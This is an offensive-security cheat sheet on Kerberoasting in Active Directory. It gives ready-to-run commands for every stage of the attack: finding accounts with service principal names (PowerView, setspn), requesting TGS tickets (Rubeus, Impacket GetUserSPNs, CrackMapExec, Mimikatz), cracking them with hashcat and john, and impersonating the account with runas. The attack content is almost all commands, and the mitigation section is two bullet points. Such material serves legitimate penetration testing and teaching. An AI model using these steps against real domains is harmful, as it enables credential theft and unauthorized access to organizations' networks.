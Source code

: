 # Kerberoasting

**Kerberosting** is a post-exploitation attack technique that attempts to **obtain a password hash** of an Acrive Directory account that has a **Service Principal Name (SPN)** enabled.\
In such an attack, an authenticated domain user requests a Kerberos ticket for an SPN. The retrieved Kerberos ticket is encrypted with the hash of the service account password affiliated with the SPN. The adversary then works offline to **crack the password hash**, often using brute force technique.\
Once the plaintext credentials of the service account are obtained, the adversary **can impersonate the account owner** and inherit access to any systems, assets or networks granted to the compromised account.

{% hint style="info" %}
**Kerberoasting** is a method of obtaining service account credentials by requesting service tickets from a domain controller and cracking them offline. It allows the attacker to gain access to network resources by using the service account's password hash. **Pass-the-Ticket**, on the other hand, is a technique where an attacker steals a Kerberos ticket-granting ticket (TGT) from a user's session and uses it to impersonate the user to gain access to network resources.
{% endhint %}



#### Methodology:

* **Identify accounts** that have a Service Principal Name (SPN) enabled
* **Request a TGS ticket** for the specified SPN using Kerberos
* **Crack** the password from the TGS ticket.

## Identify Kerberostable account

First we have to detect all user in the domain that has "**Service Principal Name (SPN)**" option **enabled**.

### PowerView (Windows)

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}

```powershell
# import the module
powershell -ep bypass
. .\PowerView.ps1
```

<pre class="language-powershell"><code class="lang-powershell"><strong>Get-NetUser | Where-Object {$_.servicePrincipalName} | fl
</strong>Get-NetUser -SPN | select serviceprincipalname
</code></pre>

```powershell
Invoke-Kerberoast
Get-DomainObject -Identity $ACCOUNT_NAME 
```

### setspn.exe (Windows)

**setspn.exe** is a built-in binary. Focus on user accounts.

```powershell
setspn.exe -Q */*
setspn -T $CD_NAME -Q */*
```

<figure><img src="../../../.gitbook/assets/image (121).png" alt=""><figcaption></figcaption></figure>



### kerberost tool (Linux)

{% embed url="https://github.com/skelsec/kerberoast" %}

Install the package with pip:

```bash
pip3 install kerberoast
```

Run this commands:

{% code overflow="wrap" %}
```bash
kerberoast ldap spn 'ldap+ntlm-password://$DOMAIN.local\$USER:$PASS@$DC_IP' -o kerberoastable
```
{% endcode %}



## Get TGS tickets

Once we have a list with all kerberostable account, we can try to get the TGS of the accounts.

### Rubeus.exe (Windows)

{% embed url="https://github.com/GhostPack/Rubeus" %}

Transfer the executable into a WIndows target and run it:

```powershell
.\Rubeus.exe kerberoast /stats
.\Rubeus.exe kerberoast /user:svc_mssql /outfile:
.\Rubeus.exe kerberoast /simple /outfile:hashes.kerberoast
```

### Msfconsole (Linux)

```bash
msf> use auxiliary/gather/get_user_spns
```



### targetedKerberoast

{% embed url="https://github.com/ShutdownRepo/targetedKerberoast" %}

{% code title="Installation" %}
```bash
git clone https://github.com/ShutdownRepo/targetedKerberoast
```
{% endcode %}

{% code title="Usage" %}
```bash
targetedKerberoast.py -v -d 'domain.local' -u 'controlledUser' -p 'ItsPassword'
```
{% endcode %}

### GetUserSPNs.py (Linux)

The Impacket script **GetUserSPNs (Python)** can perform all the necessary steps to request a ST for a service given its SPN and valid domain credentials.

{% embed url="https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py" %}

Copy the script and run this commands:

{% code overflow="wrap" %}
```bash
GetUserSPNs.py -request -dc-ip $DC_IP $DOMAIN.local/$USER -outputfile hashes.kerberoast

# with a password
GetUserSPNs.py -outputfile kerberoastables.txt -dc-ip $DC_IP
'DOMAIN/USER:Password'

# with an NT hash
GetUserSPNs.py -outputfile kerberoastables.txt -hashes 'LMhash:NThash' -dc-ip
$DC_IP 'DOMAIN/USER'
```
{% endcode %}

### CrackMapExec

```bash
crackmapexec ldap $TARGETS -u $USER -p $PASSWORD --kerberoasting
kerberoastables.txt --kdcHost $DC_IP
```



### setspn (Windows)

{% code overflow="wrap" %}
```powershell
# Get TGSs for all kerberostable accounts
setspn.exe -T $DOMAIN.local -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() } 

# List kerberos tickets in memory
klist
```
{% endcode %}

### PowerView

```powershell
Add-Type -AssemblyName System.IdentityModel 
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "$SPN" 
```

Once the object has created we can use tool like mimikatz to extract the ticket.

Copy the mimikatz invoke into a file and transfer it into a target machine.

{% embed url="https://github.com/PowershellMafia/Powersploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1" %}

```powershell
# Import the module in powershell
. .\Invoke-Mimikatz.ps1

# extract the tgs tickets from memory
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

This command create a file named with the TGS ticket to crack

<figure><img src="../../../.gitbook/assets/image (168).png" alt=""><figcaption></figcaption></figure>

## Crack the TGS tickets

### tgsrepcrack (.kirbi crack)

{% embed url="https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py" %}

Copy the script above and run it:

```bash
python tgsrepcrack.py /PATH/TO/rockyou.txt $TGS_TICKET.kirbi
```

### .txt output crack

```bash
hashcat -m 13100 -o creds.txt -a 0 ./$KRB5TGS.txt ./rockyou.txt

john --format=krb5tgs --wordlist=.../rockyou.txt $KRB5TGS.txt
```



## Use Cracked Creds

Once we have obtained the credentials from tgs tickets, we can impesonate the hacked account.

```powershell
# spawn a powershell as hacked account
runas /netonly /User:$USER powershell.exe
```







## Resources:

{% embed url="https://www.picussecurity.com/resource/blog/kerberoasting-attack-explained-mitre-attack-t1558.003" %}





## Mitigations

To avoid this type of attack, we can:

* Use strong Passwords
* Least Privilege





